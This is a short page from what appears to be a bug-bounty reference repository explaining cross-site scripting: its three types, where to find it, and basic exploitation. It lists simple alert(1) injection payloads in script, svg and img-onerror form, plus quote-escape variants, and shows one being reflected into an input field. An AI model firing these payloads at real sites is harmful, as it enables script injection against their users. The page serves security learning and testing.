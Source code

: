 
## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md#introduction)

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into websites. There is 3 types of XSS Attack:

- Reflected XSS
    
    Attack where the malicious script runs from another website through the web browser
    
- Stored XSS
    
    Stored attacks are those where the injected script is permanently stored on the target servers
    
- DOM-Based XSS
    
    A type of XSS that has payloads found in the DOM rather than within the HTML code.
    

## Where to find

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md#where-to-find)

This vulnerability can appear in all features of the application. If you want to find Dom-based XSS, you can find it by reading the javascript source code.

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Cross%20Site%20Scripting.md#how-to-exploit)

1. Basic payload

```html
<script>alert(1)</script>
<svg/onload=alert(1)>
<img src=x onerror=alert(1)>
```

2. Add ' or " to escape the payload from value of an HTML tag

```html
"><script>alert(1)</script>
'><script>alert(1)</script> 
```

- Example source code

```html
<input id="keyword" type="text" name="q" value="REFLECTED_HERE">
```

- After input the payload

```html
<input id="keyword" type="text" name="q" value=""><script>alert(1)</script>
```
